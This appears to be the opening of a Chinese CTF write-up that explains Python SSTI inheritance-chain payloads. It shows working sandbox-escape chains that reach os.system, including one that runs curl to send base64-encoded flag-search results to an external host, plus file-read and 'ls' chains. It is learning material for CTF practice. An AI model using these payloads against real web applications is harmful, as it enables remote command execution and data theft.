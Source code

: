 
# Forward

​	之前好像打网鼎杯ssti被虐了一次,当时就打算对这个进行一下研究，后来忙忘记最近有个山东省赛的题目又把我折腾了好久，所以这次就下定决心进行一波python继承链的分析和学习  



# 基础知识

```python
().__class__.__bases__[0].__subclasses__()[59].__enter__.__func__.__getattribute__('__global' + 's__')['s'+'ys'].modules['o'+'s'].__getattribute__('sy' + 'stem')("curl i1shpx.ceye.io/`find / -name flag | base64`")
```

```
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/flag').read()
```

从payload开始分析知识点:

(-1) python一切皆对象 函数是第一对象

(0) dir() 展示对象的属性

(1)  ***()*** 这是python的tuple的一个类实例 类似也有( [] 列表实例)

(2)  \__class__  返回一个实例所属的类 	 `print dir(().__class__)`

(3) \__bases__ 返回一个直接所继承的类(元组形式)

(4)\__subclasses__  获取一个类的子类 返回的是一个列表

(5) \__builtin__ && __builtines 查看当前内存空间支持的函数

(6)\__dict__ 字典的格式列出类或者模块中支持的方法和变量属性

(7)\__getattribute__ 获取函数中所支持的属性 

(8)\__globals__ 返回当前函数或者对象可以访问的全局变量(模块)

(9)\__getattribute__ 访问对象的属性的时候会调用的函数 比如调用t. \___dict___ == t.\__getattribute\____("\___dict__")



# python继承链原理  



类实例 ->类->基类->子类->成员函数->全局变量-linecache module-> 获取os module->执行命令

`[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')`

 
 

# 题目分析  
